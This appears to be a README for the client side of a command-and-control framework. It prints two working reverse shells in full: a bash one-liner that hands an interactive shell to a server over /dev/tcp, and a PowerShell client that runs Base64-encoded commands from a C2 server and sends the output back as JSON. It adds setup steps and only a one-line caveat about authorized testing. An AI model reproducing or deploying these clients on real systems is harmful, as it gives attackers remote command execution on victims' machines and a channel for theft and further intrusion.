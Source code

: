 # Client Reverse Shell Scripts

This directory contains the client-side reverse shell scripts that work in conjunction with the C2 server (located in the `server` directory). There are two scripts provided:

- **client.sh** – for Linux/Unix systems  
- **client.ps1** – for Windows systems

Both scripts are designed to establish a reverse shell connection to the C2 server and receive payload commands. They also set an environment variable (`TASK`) that is used by the server to decide which payload to deliver.

---

## Repository Structure

```
.
├── client
│   ├── client.sh       # Linux reverse shell client script
│   └── client.ps1      # Windows reverse shell client script
└── server
    └── server.py       # Command and Control server and its components
```

---

## Overview

### How It Works

- **Connection Establishment:**  
  Each client script creates a TCP connection to the server.  
  - On Linux, the reverse shell is initiated via a bash interactive shell.
  - On Windows, a PowerShell process handles the connection and payload execution.

- **Payload Execution:**  
  Once connected, the client waits for a Base64-encoded payload (command) from the server, decodes it, and executes it.  
  The output (stdout, stderr, and exit code) is then encoded and sent back to the server as a JSON response.

- **TASK Environment Variable:**  
  The `TASK` variable (defaulted to `"example"`) is set by the client scripts. The server uses this value to determine which payload script (e.g., bash or PowerShell) should be executed on the client side.

---

## Client Scripts

### client.sh (Linux)

```bash
#!/bin/bash
echo "Triggering reverse shell to $SERVER_IP:$SERVER_PORT ..."
TASK="example" /bin/bash -i >& /dev/tcp/$SERVER_IP/$SERVER_PORT 0>&1
```

- **Usage:**  
  - Ensure that the environment variables `SERVER_IP` and `SERVER_PORT` are set to point to your C2 server.
  - This script initiates a reverse shell by connecting to the provided server address and port.
  - It exports the `TASK` variable, which informs the server of the payload to deliver.

### client.ps1 (Windows)

```powershell
# Define server and port
$server = "xxx.xxx.xxx.xxx" # Replace with your server's IP address or hostname
$port = 4444
$TASK="example"

# Create a TCP connection
$client = New-Object System.Net.Sockets.TCPClient($server, $port)
$stream = $client.GetStream()
$encoding = [System.Text.Encoding]::UTF8
$reader = New-Object System.IO.StreamReader($stream, $encoding)
$writer = New-Object System.IO.StreamWriter($stream, $encoding)
$writer.AutoFlush = $true

while (($payloadEncoded = $reader.ReadLine()) -ne $null) {
    # Decode the Base64-encoded payload to retrieve the command
    Write-Host "Received payload: $payloadEncoded"
    try {
        $payloadBytes = [System.Convert]::FromBase64String($payloadEncoded)
        $command = $encoding.GetString($payloadBytes)
    }
    catch {
        Write-Host "Failed to decode payload: $_"
        Write-Host "Received raw payload: " + $payloadEncoded.Trim()
        $command = $payloadEncoded.Trim()
    }
    Write-Host "Decoded command: $($command.Trim())"

    $process = New-Object System.Diagnostics.Process
    $process.StartInfo.FileName = "powershell.exe"
    $bytes = [System.Text.Encoding]::Unicode.GetBytes('$ProgressPreference = "SilentlyContinue"; $TASK="' + $TASK + '";' + $command)
    $encodedCommand = [System.Convert]::ToBase64String($bytes)
    $process.StartInfo.Arguments = "-NoProfile -EncodedCommand $encodedCommand"
    $process.StartInfo.UseShellExecute = $false
    $process.StartInfo.RedirectStandardOutput = $true
    $process.StartInfo.RedirectStandardError = $true

    # Set an environment variable for the process
    $process.StartInfo.EnvironmentVariables["TASK"] = $TASK

    $process.Start() | Out-Null

    # Capture the outputs.
    $output = $process.StandardOutput.ReadToEnd().Trim()
    $errorOutput = $process.StandardError.ReadToEnd().Trim()
    $exitCode = $process.ExitCode

    $process.WaitForExit()

    # Now $output and $errorOutput contain the stdout and stderr, respectively.
    Write-Output "Output: $output"
    Write-Output "Error output: $errorOutput"
    Write-Output "Exit code: $exitCode"

    $stdoutBytes     = [System.Text.Encoding]::UTF8.GetBytes($output)
    $stderrBytes     = [System.Text.Encoding]::UTF8.GetBytes($errorOutput)

    # Build a JSON response (you could add more details if needed)
    $response = @{
        session_id = $(if ($env:SESSION_ID) { $env:SESSION_ID } else { "" })
        task       = $TASK
        stdout     = [System.Convert]::ToBase64String($stdoutBytes)
        stderr     = [System.Convert]::ToBase64String($stderrBytes)
        returncode = $exitCode
    }
    $json = $response | ConvertTo-Json -Compress

    # Send the JSON response followed by a newline
    $writer.WriteLine($json)
}

$client.Close()
```

- **Usage:**  
  - Edit the `$server` variable to set your C2 server’s IP address or hostname.
  - The script uses port `4444` by default; update `$port` if needed.
  - It establishes a TCP connection and continuously listens for Base64-encoded commands.
  - Each payload is decoded and executed using PowerShell, with outputs sent back to the server in JSON format.

---

## Setup and Execution

### Prerequisites

- **For Linux Client:**
  - A Unix-like environment (Linux, macOS, etc.)
  - Bash shell
  - Access to the target C2 server over the network

- **For Windows Client:**
  - Windows PowerShell (v5.1 or later)
  - Access to the target C2 server over the network

### Running the Client

1. **Configure Server Details:**

   - **Linux:**  
     Set the environment variables `SERVER_IP` and `SERVER_PORT` before running the script. For example:
     ```bash
     export SERVER_IP="192.168.1.100"
     export SERVER_PORT="4444"
     ./client.sh
     ```

   - **Windows:**  
     Open the `client.ps1` file in a text editor and update the `$server` and `$port` variables with your C2 server's details. Then, run the script from PowerShell:
     ```powershell
     .\client.ps1
     ```

2. **Execution:**  
   Once executed, the client will connect to the server and wait for payloads. The server will deliver Base64-encoded commands which the client decodes, executes, and then returns a JSON response containing the execution results.

---

## Customization

- **TASK Variable:**  
  The `TASK` environment variable determines which payload the server will send. You can change the default value (`"example"`) to match your requirements.

- **Logging and Output:**  
  Both scripts print status messages to help track the connection and command execution process. Adjust the verbosity as needed.

- **Payload Handling:**  
  The client scripts are designed to work with the payload delivery mechanism of the C2 server. Ensure that any payloads provided by the server are compatible with your client environment (bash for Linux and PowerShell for Windows).

---

## Security Considerations

- **Use in Controlled Environments:**  
  These scripts are intended for authorized testing or research purposes only. Running a reverse shell can expose your system to significant risk if misused.

- **Network Security:**  
  Ensure that the network and systems are secure and that only trusted entities can connect to your server.

---

## License

Include your license information here.